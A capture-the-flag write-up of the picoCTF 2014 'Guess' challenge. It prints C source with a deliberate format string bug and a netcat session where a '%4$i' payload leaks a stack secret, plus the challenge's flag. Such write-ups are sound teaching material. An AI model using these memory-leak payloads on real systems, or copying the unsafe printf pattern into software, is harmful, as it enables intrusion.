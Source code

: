 ```yaml
---
layout: post
title: "picoCTF 2014 Guess"
date: 2014-11-07 19:41:54 -0500
author: [swappage]
comments: true
categories: [picoctf]
---
```


### Solved by Swappage

Guess was a basic 75 points binary exploitation challenge in picoCTF 2014

{% img center /images/2014/pico/guess/problem.png %}

<!-- more -->

The source code was available for download so it was really quick to spot the vuln:

```c
	#include <stdio.h>
	#include <stdlib.h>

	char *flag = "~~FLAG~~";

	void main(){
	    int secret, guess;
	    char name[32];
	    long seed;

	    FILE *f = fopen("/dev/urandom", "rb");
	    fread(&secret, sizeof(int), 1, f);
	    fclose(f);

	    printf("Hello! What is your name?\n");
	    fgets(name, sizeof(name), stdin);

	    printf("Welcome to the guessing game, ");
	    printf(name);
	    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

	    printf("What is your guess?\n");
	    scanf("%d", &guess);

	    if(guess == secret){
		printf("Wow! You guessed it!\n");
		printf("Your flag is: %s\n", flag);
	    }else{
		printf("Hah! I knew you wouldn't get it.\n");
	    }
	}
```

At line 19 there is a wonderful printf(name), which obviously results in a format string exploitable bug.

The program is pretty simple in its functionality, what it does is to open a file from which it reads the flag, then it generates a random number and asks you for your name.
Then it asks you to guess the number it generated.

Obviously abusing the format string bug, we can leak the informations from memory, read the number from the stack and reply with the correct answer, at which point we are returned the flag.

On my local machine using gdb could spot where the number was stored on the stack very precisely, which was at %14$i.
This didn't work on the real target most likely because the binary was compiled under a different system, but with a little of brute forcing, i could eventually work things out

	$ nc vuln2014.picoctf.com 4546
	Hello! What is your name?
	%4$i
	Welcome to the guessing game, -1715610369

	I generated a random 32-bit number.
	You have a 1 in 2^32 chance of guessing it. Good luck.
	What is your guess?
	-1715610369
	Wow! You guessed it!
	Your flag is: leak_the_seakret



